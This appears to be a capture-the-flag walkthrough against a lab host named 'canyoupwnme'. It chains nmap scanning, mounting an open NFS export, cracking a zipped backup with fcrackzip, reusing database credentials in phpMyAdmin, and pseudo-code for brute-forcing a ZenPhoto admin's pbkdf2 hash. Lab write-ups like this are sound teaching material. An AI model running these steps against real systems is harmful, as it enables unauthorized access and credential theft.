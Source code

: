 # Exploiting NFS

## Port scanning

According to `nmap` result, a NFS export should be available

    $ nmap -A -T4 -sT -p1-65535 canyoupwnme
    ...
    2049/tcp  open  nfs         2-4 (RPC #100003)
    ...

## Mount the NFS export

Let's scan the available exports

    $ showmount -e canyoupwnme
    Export list for canyoupwnme:
    /backup *

Now, let's try to mount `/backup` and to get the content

    $ mkdir backup
    $ mount -o ro,noexec canyoupwnme:/backup backup
    $ ls backup
    backup.tar.bz2.zip

Get a local copy of the archive

    $ cp backup/backup.tar.bz2.zip .
    $ umount ./backup
    $ unzip backup.tar.bz2.zip
    Archive:  backup.tar.bz2.zip
    [backup.tar.bz2.zip] backup.tar.bz2 password:

Mmmm... a password protected ZIP! Let's try with `fcrackzip`...

    $ fcrackzip -u backup.tar.bz2.zip
    PASSWORD FOUND!!!!: pw == aaaaaa

## Get the ZIP content

Let's see inside the ZIP archive

    $ unzip -P aaaaaa backup.tar.bz2.zip
    Archive:  backup.tar.bz2.zip
      inflating: backup.tar.bz2
    $ tar jxf backup.tar.bz2
    $ ls
    backup.tar.bz2  backup.tar.bz2.zip  html
    $ ls html
    dvwa  gentleman  index.html  web-standards  zenphoto

It includes a directory `html` that could be a backup of `/var/www/html` in
production. Let's try if the following URLs work

*   http://canyoupwnme/dvwa (it works!!!)
*   http://canyoupwnme/gentleman
*   http://canyoupwnme/web-standards
*   http://canyoupwnme/zenphoto (it works!!!)

## DVWA

Work in progress...

## ZenPhoto

Let's try if something interesting is available in `zenphoto` dir

    $ cd html/zenphoto
    $ find . -iname "*config*"
    ./zp-data/zp-config.php
    ./zp-core/zp-extensions/tiny_mce/plugins/ajaxfilemanager/inc/config.base.php
    ./zp-core/zp-extensions/tiny_mce/plugins/ajaxfilemanager/inc/config.php
    ./zp-core/zp-extensions/tiny_mce/plugins/ajaxfilemanager/inc/config.tinymce.php
    ./zp-core/zp-extensions/tiny_mce/config

The file `zp-config.php` could be useful...

    $ cat zp-data/zp-config.php
    ...
    $conf['mysql_user'] = 'root';           // Supply your MySQL user id.
    $conf['mysql_pass'] = 'toor';           // Supply your MySQL password.
    $conf['mysql_host'] = 'localhost';  // Supply the name of your MySQL server.
    $conf['mysql_database'] = 'zenphoto';       // Supply the name of Zenphoto's database
    ...
    $conf['mysql_prefix'] = "zp_";

Interesting information! According to `dirsearch` output...

    $ python3 dirsearch.py --url http://canyoupwnme -e htm,html,php,js,css,asp
    ...
    [17:11:38] 301 -  314B  - /phpmyadmin  ->  http://canyoupwnme/phpmyadmin/
    [17:11:38] 200 -    8KB - /phpmyadmin/
    ...

... an instance of phpMyAdmin is available! Let's try the login with
`root:toor`. It works!

In the `zenphoto` database, we can see two sets of tables with prefixes `zp_`
and `zenphoto_`. Even if `zp-config.php` suggests us to use `zp_` tables,
`zenphoto_` tables seem to be those in production. Nince information from
`zenphoto_administrators` tabe are

*   username: travis
*   password: nT/y9QPmdknO/pu7QI4kNZK3yVk3h/Lan5M6mWLTE4I=

while nince information from `zenphoto_options` table are

*   zenphoto_install: a:12:{ ... s:8:"ZENPHOTO";s:18:"1.4.11[26c78176cf]" ...}
*   extra_auth_hash_text: 0@n6AraXM~L8pQ/&eOY=cHGw52l(q!
*   strong_hash: 3
*   min_password_lenght: 6

In the ZenPhoto repo on GitHub
(tag [zenphoto-1.4.11](https://github.com/zenphoto/zenphoto/tree/zenphoto-1.4.11)),
I found something interesting in `zp-core/lib-auth.php:167-197`

    /**
     * Returns the hash of the zenphoto password
     *
     * @param string $user
     * @param string $pass
     * @return string
     */
    static function passwordHash($user, $pass, $hash_type = NULL) {
        if (is_null($hash_type)) {
            $hash_type = getOption('strong_hash');
        }
        switch ($hash_type) {
            case 1:
                $hash = sha1($user . $pass . HASH_SEED);
                break;
            case 2:
                //  deprecated beause of possible "+" in the text
                $hash = base64_encode(self::pbkdf2($pass, $user . HASH_SEED));
                break;
            case 3:
                $hash = str_replace('+', '-', base64_encode(self::pbkdf2($pass, $user . HASH_SEED)));
                break;
            default:
                $hash = md5($user . $pass . HASH_SEED);
                break;
        }
        if (DEBUG_LOGIN) {
            debugLog("passwordHash($user, $pass, $hash_type)[ " . HASH_SEED . " ]:$hash");
        }
        return $hash;
    }

and `zp-core/lib-auth.php:1239-1265`

    /** PBKDF2 Implementation (described in RFC 2898)
     *
     *  @param string p password
     *  @param string s salt
     *  @param int c iteration count (use 1000 or higher)
     *  @param int kl derived key length
     *  @param string a hash algorithm
     *
     *  @return string derived key
     */
    static function pbkdf2($p, $s, $c = 1000, $kl = 32, $a = 'sha256') {
        $hl = strlen(hash($a, null, true)); # Hash length
        $kb = ceil($kl / $hl); # Key blocks to compute
        $dk = ''; # Derived key
        # Create key
        for ($block = 1; $block <= $kb; $block++) {
            # Initial hash for this block
            $ib = $b = hash_hmac($a, $s . pack('N', $block), $p, true);
            # Perform block iterations
            for ($i = 1; $i < $c; $i++)
            # XOR each iterate
            $ib ^= ($b = hash_hmac($a, $b, $p, true));
            $dk .= $ib; # Append iterated block
        }
        # Return derived key of correct length
        return substr($dk, 0, $kl);
    }

We have now all the information to try a brute force. Here the pseudo-code

    foreach $pass in WORDLIST:
        if len($pass) >= 6:
            $hash = str_replace('+', '-', base64_encode(self::pbkdf2($pass, "travis" . "0@n6AraXM~L8pQ/&eOY=cHGw52l(q!")))
            if $hash == "nT/y9QPmdknO/pu7QI4kNZK3yVk3h/Lan5M6mWLTE4I="
                print "Password is $pass"
                exit 0
    exit 1

Now, a good wordlist must be found. In the mean time, I'm trying with rockyou
and [this script](./scripts/zenphoto-brute-force.php).
